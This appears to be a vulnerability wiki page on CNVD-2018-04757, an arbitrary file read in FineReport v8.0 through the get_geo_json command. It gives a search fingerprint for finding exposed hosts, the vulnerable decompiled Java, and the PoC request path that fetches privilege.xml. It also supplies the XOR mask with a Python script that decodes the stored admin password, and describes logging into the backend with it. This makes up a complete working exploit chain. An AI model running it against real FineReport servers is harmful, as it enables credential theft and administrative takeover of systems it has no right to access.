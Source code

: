 # Fansoft Report V8 get_geo_json Arbitrary file reading vulnerability CNVD-2018-04757

## Vulnerability Description

FineReport Report Software is an enterprise-level web reporting tool written in pure Java, integrating data display (report) and data entry (form).

There is a vulnerability to read any file on the website in FineReport v8.0. Attackers can use the vulnerability to read any file on the website.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FineReport < v8.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="isSupportForgetPwd"</span>

## Vulnerability reappears

The file with the vulnerability is fr-applet-8.0.jar

```java
package com.fr.chart.web;

import com.fr.base.FRContext;
import com.fr.general.IOUtils;
import com.fr.stable.CodeUtils;
import com.fr.web.core.ActionNoSessionCMD;
import com.fr.web.utils.WebUtils;
import java.io.InputStream;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class ChartGetFileContentAction extends ActionNoSessionCMD {
    public ChartGetFileContentAction() {
    }

    public void actionCMD(HttpServletRequest var1, HttpServletResponse var2, String var3) throws Exception {
        String var4 = CodeUtils.cjkDecode(WebUtils.getHTTPRequestParameter(var1, "resourcepath"));
        if (!WebUtils.invalidResourcePath(var4)) {
            InputStream var5 = FRContext.getCurrentEnv().readResource(var4);
            String var6 = IOUtils.inputStream2String(var5);
            var6 = var6.replace('\ufeff', ' ');
            WebUtils.printAsString(var2, var6);
        }
    }

    public String getCMD() {
        return "get_geo_json";
    }
}
```



Use request to pass the file name in. Call the cjkDecode function to decrypt the file name.

Use invalidResourcePath function to verify whether the file exists

Finally, use the readResource function to read the file and transfer it to the browser. The default directory is resources

The privilege.xml stores the username and password of the background

```xml
<?xml version="1.0" encoding="UTF-8"?>
<PrivilegeManager xmlVersion="20170715" releaseVersion="8.0.0" fsSystemManagerPassSet="true" birthday="0" male="false">
<rootManagerName>
<![CDATA[admin]]></rootManagerName>
<rootManagerPassword>
<![CDATA[___00520017004e002b004100b7004200250023007f003d003d005400e4001c0057]]></rootManagerPassword>
<AP class="com.fr.privilege.providers.NoAuthenticationProvider"/>
<ForwardUrl>
<![CDATA[${servletURL}?op=fr_platform]]></ForwardUrl>
<PVFILTER class="com.fr.fs.privilege.auth.BasePrivilegeFilter"/>
</PrivilegeManager>
```

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Encryption function</span>

```java
public static String passwordEncode(String var0) {
        StringBuilder var1 = new StringBuilder();
        var1.append("___");
        if (var0 == null) {
            return var1.toString();
        } else {
            int var2 = 0;

            for(int var3 = 0; var3 < var0.length(); ++var3) {
                if (var2 == PASSWORD_MASK_ARRAY.length) {
                    var2 = 0;
                }

                int var4 = var0.charAt(var3) ^ PASSWORD_MASK_ARRAY[var2];
                String var5 = Integer.toHexString(var4);
                int var6 = var5.length();

                for(int var7 = 0; var7 < 4 - var6; ++var7) {
                    var5 = "0" + var5;
                }

                var1.append(var5);
                ++var2;
            }

            return var1.toString();
        }
    }
```

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Decryption function</span>

```java
public static String passwordDecode(String var0) {
        if (var0 != null && var0.startsWith("___")) {
            var0 = var0.substring(3);
            StringBuilder var1 = new StringBuilder();
            int var2 = 0;

            for(int var3 = 0; var3 <= var0.length() - 4; var3 += 4) {
                if (var2 == PASSWORD_MASK_ARRAY.length) {
                    var2 = 0;
                }

                String var4 = var0.substring(var3, var3 + 4);
                int var5 = Integer.parseInt(var4, 16) ^ PASSWORD_MASK_ARRAY[var2];
                var1.append((char)var5);
                ++var2;
            }

            var0 = var1.toString();
        }

        return var0;
    }
```



The decryption code written in python is

```python
cipher = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```



Here we use the principles described above to reproduce and access the target



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fan-1.png)

Access the POC to read the password file privilege.xml

```plain
/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fan-2.png)



Decrypt files using decryption script



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fan-3.png)



Get the password and log in to the backend system. The account is admin



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fan-4.png)